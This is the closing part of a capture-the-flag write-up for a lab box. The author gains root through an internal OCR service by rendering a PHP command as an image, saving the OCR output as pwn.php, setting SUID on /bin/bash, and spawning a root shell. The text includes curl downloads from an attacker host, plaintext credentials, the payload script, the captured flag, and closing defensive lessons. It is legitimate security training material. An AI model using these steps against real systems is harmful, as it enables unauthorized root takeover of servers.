walter@makesense:/tmp$ curl s http://10.10.16.66:9000/test_dataurl.txt o /tmp/test_dataurl.txt
walter@makesense:/tmp$ head c 80 /tmp/test_dataurl.txt
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAA...
```

Then I submitted it to the OCR service:

```bash
walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! \
    c /tmp/cookies.txt b /tmp/cookies.txt \
    o /tmp/ocr_response.html \
    dataurlencode "canvas_image@/tmp/test_dataurl.txt" \
    http://127.0.0.1:8001/
```

I checked the response — the OCR had correctly read the text, and the save form was present:

```bash
walter@makesense:/tmp$ grep A 1 'outputtext' /tmp/ocr_response.html
```

```html
<p class="outputtext">hello world this is a test</p>
```

```bash
walter@makesense:/tmp$ grep oE 'name="ocr_id" value="[^"]+"' /tmp/ocr_response.html
```

```
name="ocr_id" value="ocr_6a538689ec9f42.21500392"
```

Then I saved with a `.txt` filename and verified the file was accessible:

```bash
walter@makesense:/tmp$ OCR_ID="ocr_6a538689ec9f42.21500392"

walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! \
    c /tmp/cookies.txt b /tmp/cookies.txt \
    o /tmp/save_response.html \
    dataurlencode "ocr_id=$OCR_ID" \
    dataurlencode "filename=test123.txt" \
    dataurlencode "save_output=Save" \
    http://127.0.0.1:8001/

walter@makesense:/tmp$ grep i 'notice.*success' /tmp/save_response.html
```

```html
<p class="notice success reveal">Saved as: saved/test123.txt</p>
```

```bash
walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/saved/test123.txt
hello world this is a test
```

**Pipeline confirmed.** Now to weaponize it.

### Step 8: Craft the PHP Payload Image

The PHP payload needs to be **short and OCRfriendly**. Tesseract isn't perfect, and complex PHP won't OCR cleanly. The classic payload for this kind of exploit is:

```php
<?php system('chmod +s /bin/bash'); ?>
```

This adds the SUID bit to `/bin/bash`. Once that's set, any user running `bash p` (the `p` flag means "don't drop privileges") gets a root shell.

**Why `chmod +s /bin/bash` instead of alternatives?**

 It's a single, simple command (more reliable OCR)
 SUID bash is a wellknown primitive that gives an instant root shell
 It's reversible (you can `chmod s /bin/bash` to clean up after)
 No special characters that confuse OCR

**Important OCR gotcha:** Tesseract tends to misread certain characters:

 `_` (underscore) often becomes a space — **this is why the payload has no underscores**
 `'` (single quote) usually reads correctly in monospace
 `;` (semicolon) usually works
 `()` (parens) sometimes work, sometimes don't

So the payload `<?php system('chmod +s /bin/bash'); ?>` is designed to OCR cleanly. Avoid underscores in any payload you write.

I modified my render script to use this payload:

```python
#!/usr/bin/env python3
# render_payload.py  run on Kali
from PIL import Image, ImageDraw, ImageFont
import base64

# The PHP payload  short and OCRfriendly (no underscores!)
# This sets the SUID bit on /bin/bash
text = "<?php system('chmod +s /bin/bash'); ?>"

font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf", 64)

# Measure
tmp = Image.new("RGB", (10, 10))
dd = ImageDraw.Draw(tmp)
bb = dd.textbbox((0, 0), text, font=font)
W, H = bb[2]  bb[0] + 80, bb[3]  bb[1] + 80

# Render  high contrast, monospace, generous padding
img = Image.new("RGB", (W, H), "white")
ImageDraw.Draw(img).text((40  bb[0], 40  bb[1]), text, fill="black", font=font)
img.save("payload.png")

# Output as data URL
data_url = "data:image/png;base64," + base64.b64encode(open("payload.png", "rb").read()).decode()
with open("payload_dataurl.txt", "w") as f:
    f.write(data_url)
print(f"Saved payload.png ({W}x{H})")
print(f"Data URL saved to payload_dataurl.txt ({len(data_url)} chars)")
```

### Step 9: Verify Tesseract Reads the Payload Correctly (CRITICAL)

This is the most important step. If Tesseract misreads even one character, the PHP won't parse and you'll get nothing.

I installed Tesseract on my Kali and ran it against my payload:

```bash
$ sudo apt install tesseractocr y
$ tesseract payload.png stdout
Estimating resolution as 623
<?php system('chmod +s /bin/bash'); ?>
```

The OCR output matched the input **exactly** — character for character. If you see anything different (extra spaces, missing characters, wrong characters), the OCR will fail on the server too.

**Common fixes if Tesseract doesn't read it perfectly:**

 Increase font size to 80 or 96
 Add more padding around the text (change `+ 80` to `+ 120` in both dimensions)
 Try a different monospace font (`/usr/share/fonts/truetype/liberation/LiberationMonoRegular.ttf`)
 Render at higher DPI

Do **not** proceed to the next step until Tesseract on your Kali reads the payload exactly.

### Step 10: Transfer the Payload to the Target

With the HTTP server still running on my Kali (port 9000), I downloaded the data URL on the target:

```bash
walter@makesense:/tmp$ curl s http://10.10.16.66:9000/payload_dataurl.txt o /tmp/payload_dataurl.txt
walter@makesense:/tmp$ wc c /tmp/payload_dataurl.txt
21858 /tmp/payload_dataurl.txt
walter@makesense:/tmp$ head c 80 /tmp/payload_dataurl.txt
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAABggAAACOCAIAAABrMRRaAAA/wElEQVR4nOw...
```

### Step 11: Submit the Payload to the OCR Service

```bash
walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! \
    c /tmp/cookies.txt b /tmp/cookies.txt \
    o /tmp/payload_ocr_response.html \
    dataurlencode "canvas_image@/tmp/payload_dataurl.txt" \
    http://127.0.0.1:8001/
```

### Step 12: Verify the Server's OCR Read It Correctly

This step is critical — the server's Tesseract may render slightly differently than my Kali's. I checked the OCR result in the response:

```bash
walter@makesense:/tmp$ grep A 1 'outputtext' /tmp/payload_ocr_response.html
```

```html
<p class="outputtext">&lt;?php system(&#039;chmod +s /bin/bash&#039;); ?&gt;
</p>
```

The HTML entities decode to:

```
<?php system('chmod +s /bin/bash'); ?>
```

**Exact match.** The server read the PHP payload correctly. (If you see any differences here, you need to rerender the image with adjustments and try again.)

I also extracted the new `ocr_id`:

```bash
walter@makesense:/tmp$ grep oE 'name="ocr_id" value="[^"]+"' /tmp/payload_ocr_response.html
name="ocr_id" value="ocr_6a5387d88e7f14.14059719"
```

### Step 13: Save as pwn.php

```bash
walter@makesense:/tmp$ OCR_ID=$(grep oE 'name="ocr_id" value="[^"]+"' /tmp/payload_ocr_response.html | sed 's/.*value="//;s/"//')
walter@makesense:/tmp$ echo "Using OCR_ID: $OCR_ID"
Using OCR_ID: ocr_6a5387d88e7f14.14059719

walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! \
    c /tmp/cookies.txt b /tmp/cookies.txt \
    o /tmp/save_pwn_response.html \
    dataurlencode "ocr_id=$OCR_ID" \
    dataurlencode "filename=pwn.php" \
    dataurlencode "save_output=Save" \
    http://127.0.0.1:8001/

walter@makesense:/tmp$ grep i 'notice.*success' /tmp/save_pwn_response.html
```

```html
<p class="notice success reveal">Saved as: saved/pwn.php</p>
```

The PHP file was saved at `/root/ocr4/saved/pwn.php`.

### Step 14: Trigger the Payload

Hitting the saved PHP file executes it as root. The payload runs `chmod +s /bin/bash`, which adds the SUID bit to bash:

```bash
walter@makesense:/tmp$ curl s u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/saved/pwn.php
```

(No output is expected — `chmod` produces no output on success.)

### Step 15: Verify SUID Bit Was Set

```bash
walter@makesense:/tmp$ ls la /bin/bash
rwsrsrx 1 root root 1446024 Mar 31  2024 /bin/bash
```

The `s` where `x` used to be (in the owner column) is the SUID bit. ✅

### Step 16: Get Root Shell

```bash
walter@makesense:/tmp$ bash p
bash5.2# whoami
root
```

The `p` flag tells bash "preserve effective UID" — when bash is SUIDroot, running it normally would drop privileges (bash does this as a safety measure). With `p`, it keeps the effective UID of root, giving you a root shell.


## Root Flag

```bash
bash5.2# ls /root
ocr4  root.txt
bash5.2# cat /root/root.txt
104bafa63d3f65c9b22010282f65d17e
```

**Root flag captured.**


## Summary

| Step | Technique | Result |
||||
| Recon | Nmap + WPScan + WhatWeb + ffuf | Identified WordPress 7.0 with custom `webagency` theme |
| Source code review | Read `whisperwrapper.js` | Found hardcoded AESGCM key + AJAX endpoints |
| Stage 1 | Stored XSS via hardcoded AESGCM key | Admin bot created me a new admin account |
| Stage 2 | Malicious WordPress plugin upload | RCE as `wwwdata` |
| Stage 3 | Credential reuse (MySQL password = SSH password) | SSH as `walter`, user.txt |
| Stage 4 | Internal OCR service arbitrary file write as root | Root shell via SUID bash, root.txt |

### Key vulnerabilities exploited

1. **Hardcoded symmetric encryption key in clientside JavaScript.** AESGCM with a key shipped in `whisperwrapper.js` provides no authentication — anyone can craft valid encrypted payloads.
2. **Stored XSS in the `transcription` field.** The contact form's voice transcription is rendered in the admin panel without HTML escaping.
3. **Admin bot visits usersubmitted content.** Turns the stored XSS into an authenticated privileged action (creating a new admin user).
4. **WordPress admin plugin upload.** Standard WordPress feature, not a vulnerability per se, but allows authenticated admins to upload arbitrary PHP.
5. **Credential reuse.** The MySQL password from `wpconfig.php` is also `walter`'s SSH password AND the OCR service's HTTP Basic Auth password — three services, one password.
6. **OCR service: arbitrary file write as root.** User controls the file content (via the image), the filename (no extension whitelist), and the file lands in a PHPserved directory. The OCR process runs as root, so the written file is owned by root and executed as root.

### Lessons learned

 **Never ship secrets in clientside code.** Any string in JavaScript is public.
 **Symmetric encryption is not authentication.** If the same key encrypts and decrypts, and the key is public, the encryption provides zero integrity.
 **Sanitize all user input on output.** WordPress provides `esc_html()`, `wp_kses()`, etc. — use them whenever rendering user content.
 **Use unique passwords for every service.** Credential reuse turns a single compromise into total compromise. One password = one password away from full takeover.
 **Lock down admin bot behavior.** Bots that autorender usersubmitted content should run in a sandboxed browser with no access to privileged cookies.
 **Validate filenames serverside.** Any service that lets users name output files should whitelist extensions (e.g., only `.txt`).
 **Don't run services as root.** The OCR service had no need for root privileges — it could have run as a dedicated `ocr` user with write access only to its own output directory.
 **Don't write usercontrolled content to a PHPserved directory.** Either store output outside the web root, or configure the web server to not execute PHP in the output directory.
 **Bind internal services to localhost only — but remember that's not enough.** Any user with shell access can still reach `127.0.0.1` services. Defense in depth requires auth + filename validation + leastprivilege service accounts.


*Writeup by Mikias*


